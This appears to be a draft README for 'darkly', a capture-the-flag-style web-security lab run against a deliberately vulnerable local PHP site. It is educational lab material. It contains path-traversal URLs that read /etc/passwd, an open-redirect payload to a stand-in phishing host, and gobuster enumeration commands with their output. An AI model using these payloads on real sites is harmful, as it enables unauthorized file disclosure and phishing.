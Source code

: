 # darkly

This project is meant as an introduction to web security.

Download `Darkly_i386.iso`, launch it and setup the port forwarding rule: Guest 80 → Host 8080. An insecure PHP website is now live on `localhost:8080`.

There are 14 flags to find:

- TODO: link1
- TODO: link2
- TODO: link...

## TODELETE AXEL RANDOM

`http://localhost:8080/?page=../../../../etc/passwd` (non)

`http://localhost:8080/?page=../../../../../../../etc/passwd` (oui)

TODO: enumeration on ?page=

`index.php?page=redirect&site=http://evil.tld/phishing`

Unvalidated Redirects vs Open Redirects

## TODELETE GOBUSTER COMMANDS

```console
$ git clone git@github.com:3ndG4me/KaliLists.git
```

```console
$ gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

```console
$ gobuster dir -u http://localhost:8080/images -w KaliLists/dirb/big.txt -x gif,jpg,jpeg,png --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/images
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,jpeg,png,gif
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/404.jpg              (Status: 200) [Size: 27027]
/42.jpeg              (Status: 200) [Size: 9783]
/banner.jpg           (Status: 200) [Size: 511270]
/banner2.jpg          (Status: 200) [Size: 50867]
/mailbox.png          (Status: 200) [Size: 49480]
/marvin.jpg           (Status: 200) [Size: 111300]
/search.png           (Status: 200) [Size: 49089]
/upload.png           (Status: 200) [Size: 64785]
/whoami.gif           (Status: 200) [Size: 1809804]
/win.jpg              (Status: 200) [Size: 43468]
/win.png              (Status: 200) [Size: 72726]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```
